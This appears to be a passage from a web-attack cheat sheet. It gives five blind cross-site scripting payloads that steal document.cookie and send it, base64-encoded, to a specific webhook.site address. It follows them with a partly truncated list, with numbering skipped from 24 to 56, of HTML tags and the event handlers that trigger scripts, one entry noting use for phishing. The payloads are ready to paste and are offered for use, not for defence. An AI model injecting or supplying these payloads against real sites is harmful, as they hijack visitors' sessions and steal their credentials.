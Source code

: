 ### 10、blindxss

```
'"><img src=x onerror='this.src="https://webhook.site/031950ee-f5ab-442a-acd0-3307be044663?"+btoa(document.cookie)'>
<img src=x onerror='this.src="https://webhook.site/031950ee-f5ab-442a-acd0-3307be044663?"+btoa(document.cookie)'>
"><script>fetch('https://webhook.site/031950ee-f5ab-442a-acd0-3307be044663?c=' + btoa(document.cookie));</script>
javascript:window.location="https://webhook.site/031950ee-f5ab-442a-acd0-3307be044663?"+btoa(document.cookie)
{"b":"<img src=x onerror=fetch(`https://webhook.site/031950ee-f5ab-442a-acd0-3307be044663?=`+document.cookie)>"}
```

### 11、tag sheets

```
1. img（onerror、src触发）
2. svg（支持大量事件，支持<foreignObject>嵌套html）
3. iframe（onload、srcdoc执行）
4. embed（onload、src）
5. object（onerror、data）
6. video（onerror、onloadstart）
7. audio（onerror）
8. body（onload）
9. input（onfocus、onmouseover）
10. textarea（onfocus、oninput）
11. button（onclick）
12. div（可嵌入 script、绑定事件）
13. span（同上）
14. form（可用于 phishing、onsubmit）
15. a（href=javascript:）
16. frame（src）
17. frameset（onload）
18. image（img 别名）
19. image2（img2 别名）
20. image3
21. img2
22. input2 / input3 / input4
23. video2（video 别名）
24. iframe2（iframe 别名）
56. article
57. section
58. aside
59. header
60. footer
61. nav
62. main
63. h1（onclick 等）
64. p（同上）
65. ul / ol / li
66. dl / dt / dd
67. q / blockquote / cite
68. strong / em / b / i / u / s / strike
69. sub / sup
70. ruby / rb / rt / rp / rtc
71. abbr / acronym
72. kbd / samp / var / code
73. caption
74. figcaption / figure
75. hgroup
76. big / small
77. font / center
```